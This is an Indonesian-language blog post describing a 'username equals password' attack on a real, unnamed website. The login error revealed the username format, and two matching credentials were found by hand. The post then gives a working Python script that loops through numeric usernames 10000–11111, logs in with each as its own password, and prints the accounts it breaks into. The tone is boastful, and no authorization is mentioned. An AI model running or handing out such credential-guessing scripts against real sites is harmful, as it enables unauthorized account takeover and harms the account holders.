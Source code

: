 ```yaml
---
layout: post
title:  "User==Pass attack"
date:   2016-12-06 18:47:00 +0700
categories: same user pass attack
comments: false
---
```


Dictionary attack,  bruteforce attack, soceng serangan serangan yang sudah pada umum kalau hacker udah ga mampu lagi nyerang target dengan cara cara yang halus. Serangan ini seperti memaksa membuka pintu dengan 1000 kunci yang dicoba satu satu. ga efektif dan serangan ini biasanya tidak diperbolehkan untuk digunakan pada CTF ataupun Bug Bounty karena jenis lubang keamanan ini bagi para security engginer sangat tidak rasional dikarenakan serangan ini cukup membutuhkan "*insting*" yang beketergantungan dengan "*luck*"

> "I absolutely hates die" 

yap plural dari dadu dan juga kata kerja dari mati, membutuhkan keberuntungan untuk melakukan hal statis semacam brute force, dimana  penebakan pattern pattern digunakan.

artikel kali ini akan saya jelaskan bagaimana lemahnya internet dimana beberapa orang lebih senang menggunakan password yang sama dengan username. Contoh real kasus yang akan saya jelaskan kali ini dimana ada website yang menggunakan alert pada saat username ataupun password tidak cocok. 

> ![Fail attempt login](http://k1m0ch1.github.io/images/fail-attempt-1.png)

Yap, dengan cara menebak nebak memaksa dengan false attempt pada awalnya akan muncul informasi sederhana, next step adalah mencari tahu user ini mengandung huruf/ kata atau campur.

Ternyata setelah di tes jika kita menginputkan random 5 huruf akan tetap muncul error seperti di atas dan tetap bilang kalau user harus 5 digit.

ok cukup.. berarti 5 angka.

pada contoh kali ini saya tidak akan menggunakan tools bruteforce karena serangan ini cukup sederhana dikarenakan memanfaatkan password yang sama dengan username. next saya mencoba serangan dengan username *10001* sampai *10010* dengan password yang sama dengan username.. LETS START!!

> ![Kimochi ikeh](http://k1m0ch1.github.io/images/fail-attempt-2.png)

fast forward dan ternyata pada user *10005* berhasil dilakukan berikut juga dengan user *10007*

> ![haha](http://k1m0ch1.github.io/images/success-attempt-1.png)

next nya saya bikin script python sederhana buat post login dan get cookies di percantik dengan beautifulsoup4 saya looping dari user *10000* sampai dengan user *11111*

codenya seperti ini :

```python
from requests import session
from bs4 import BeautifulSoup

base = 10000
endbase = 11111
target = "http://site target/"
proc = "index.php?action=llogin"
a=0

for x in range(base, endbase):

	exp = str(x)

	payload = {
		'login' : 'login',
	    'username': exp,
	    'password': exp
	}

	with session() as c:
	    c.post('%s%s' % (target, proc), data=payload)
	    response = c.get('%s', target)
	    soup = BeautifulSoup(response.text, 'html.parser')
	    #print(response.headers)
	    #print(response.text)
	    parsingnyah = soup.select(".top-menu")
	    if len(parsingnyah) > 0 :
	    	parsingnyah = soup.select(".top-menu > table > tr > td > br")[0].encode('utf-8')[22:-140]
	    	print "[+] Success Login user %s = %s" % (exp,parsingnyah)
```
> ![haha](http://k1m0ch1.github.io/images/lul-script-1.png)